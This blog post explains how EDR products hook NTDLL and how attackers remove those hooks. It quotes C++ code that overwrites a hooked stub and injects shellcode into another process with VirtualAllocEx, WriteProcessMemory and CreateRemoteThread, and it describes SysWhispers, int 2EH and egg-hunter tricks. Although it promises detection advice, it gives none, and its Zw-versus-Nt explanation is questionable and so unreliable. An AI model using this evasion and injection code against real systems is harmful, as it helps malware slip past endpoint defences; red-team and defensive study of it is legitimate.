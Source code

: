 # Before we begin
It's the first post on the new website, and we finally can include Markdown code blocks! No more screenshots of code! 
Blogger has served its purpose well, but it's finally time to move on to more adaptable hosting options. 
With that out of the way, the first post on the new site is going to be talking about a very common EDR evasion techniques and how to spot it - aka loading a fresh NTDLL.
This is something that has been discussed a lot before and probably won't be new to many, but even in 2022 it's still overlooked by EDR vendors, so it's worth going over.

## What is NTDLL?
In the simplest form, it exports the Windows Native API. 
Since it would be incredibly insecure to allow users direct access to manipulate the kernel, Windows instead allows you to do so through the Native API using Syscalls.
These Syscalls then are mapped via the system service descriptor table to their equivalent kernel function.
Things like WriteProcessMemory or CreateRemoteThread all go through here and have their own NT API equivalent - NtWriteVirtualMemory and NtCreateThreadEx respectively.
So if your application implements these functions, it will call NTDLL in order to map them to the Native API.
And yes! You can completely avoid having to use these exported functions by just using the Syscalls instead, i.e. Syswhispering.
This comes with its own challenges though when manually implemented as these Syscall numbers reference different memory addresses in the system service descriptor table with each update.
So if you want to avoid NTDLL and use Syscalls, use Syswhisper - it cuts out the headaches and figures out the correct memory address for you.

## How does AV use NTDLL?
As indicated above, NTDLL is used for a bunch of internal actions so, for the EDR, setting interrupt points to examine what kind of API requests are being made is critical.
Your typical EDR will modify the loaded version to allow it to send off suspicious function calls, such as below with CreateRemoteThread.
![https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/](assets/mdsec-edr-hook-example.png "EDR Jump Point")

In this screenshot provided by MDSec, Cylance has implemented a jump point for this function call so that it can inspect what exactly is being performed before passing it back to the original process.
EDR will typically do this for every function that can be abused. But each EDR is built differently so while Cylance might have this jmp here, perhaps Crowdstrike does not. Just something to keep in mind.


## Unhooking for fun and profit
We know what NTDLL is and how it's used and we also know how EDR puts jump points into it in order to examine suspicious calls. 
The next step after this is how can we defeat this process? 

```cpp
void removeCylanceHook(const char* dll, const char* apiName, char code) {
    DWORD old, newOld;
    void* procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%s\n", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &old);
    printf("[*] Unhooking Cylance\n");
    memcpy(procAddress, "\x4c\x8b\xd1\xb8", 4);
    *((char*)procAddress + 4) = code;
    VirtualProtect(procAddress, 10, old, &newOld);
} 
```
The above snippet is taken from MDSec [here](https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/).
The key part to highlight is you can see there is a new value being copied to a memory location.
Here they are overwriting this process address with the original bytes pointing to NTDLL.
Every function exported from NTDLL in fact will start with these bytes. 
After implementing this, when the application continues execution, it will no longer have a jump instruction to Cylance's analysis.

```cpp
printf("[*] Opened target process %d\n", processID);
printf("[*] Allocating memory in target process with VirtualAllocEx\n");
void *alloc = VirtualAllocEx(proc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == (void*)0) {
    printf("[!] Error: Could not allocate memory in target process\n");
    return 1;
}
printf("[*] Allocated %d bytes at memory address %p\n", sizeof(buf), alloc);
printf("[*] Attempting to write into victim process using WriteProcessMemory\n");
if (WriteProcessMemory(proc, alloc, buf, sizeof(buf), NULL) == 0) {
    printf("[!] Error: Could not write to target process memory\n");
    return 1;
}
printf("[*] WriteProcessMemory successful\n");

// Remove the NTDLL.DLL hook added by userland DLL
removeCylanceHook("ntdll.dll", "ZwCreateThreadEx", 0xBB);
printf("[*] Attempting to spawn shellcode using CreateRemoteThread\n");
HANDLE createRemote = CreateRemoteThread(proc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
printf("[*] Success :D\n");
```
When this is ran, before getting to the CreateRemoteThread function, the application calls the aforementioned removeCylanceHook function with API name for ZwCreateThreadEx.
The Zw prefix here is important as this ensures that the kernel mode variant for the function is overwritten to point away from the injected EDR jump, whereas specifying Nt would not have done.

## Pros & Cons
So why go through all this work when Syswhisper makes it far simpler?
Well, as [Captmeelo found](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html), EDR could be looking for the ```syscall``` instruction in the binary. 
A simple bypass though in this case is to replace ```syscall``` in the asm file of Syswhisper with ```int 2EH``` which is a legacy instruction for referencing kernel mode. 
*However* this **also** has issues. ```int 2EH``` is trivial to hunt for so now we're entering the territory of adding an [egg-hunter](https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/) to the code in order to find and replace items in memory at run time.
We'd replace ```syscall``` with a random string in the Syswhispers asm file and then at run time implement the egg-hunter to change our previously random string to ```syscall```.
This definitely provides a high level of evasion, but you have to weigh the cost in time versus the advantage gained.

##***References***
> https://klezvirus.github.io/RedTeaming/AV_Evasion/NoSysWhisper/
> 
> https://www.geoffchappell.com/studies/windows/win32/ntdll/api/index.htm
> 
> https://www.mdsec.co.uk/2019/03/silencing-cylance-a-case-study-in-modern-edrs/
> 
> https://www.ired.team/offensive-security/defense-evasion/bypassing-cylance-and-other-avs-edrs-by-unhooking-windows-apis
> 
> https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
> 
> https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/
> 
> https://rioasmara.com/2021/06/20/25-bytes-of-every-function-in-ntdll/
